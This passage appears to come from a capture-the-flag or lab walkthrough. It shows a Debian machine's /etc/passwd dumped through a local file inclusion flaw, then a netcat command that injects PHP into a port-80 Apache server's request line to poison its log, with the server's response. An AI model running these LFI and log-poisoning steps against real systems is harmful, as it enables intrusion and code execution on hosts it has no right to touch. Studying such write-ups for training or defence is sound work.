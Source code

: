 ```bash
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
</p>    </body>
</html>
```

__Web Server On Port 80__
Having successfully exploited one application’s LFI vulnerability, let’s attempt to poison the log file of the web application running on port 80. We can achieve this by sending a malicious PHP command to the web application.

```bash
kali@kali:~$ echo "GET <?php echo 'TEST123' ?> HTTP/1.1" | nc 192.168.120.167 80
HTTP/1.1 400 Bad Request
Date: Tue, 11 Aug 2020 21:16:09 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```
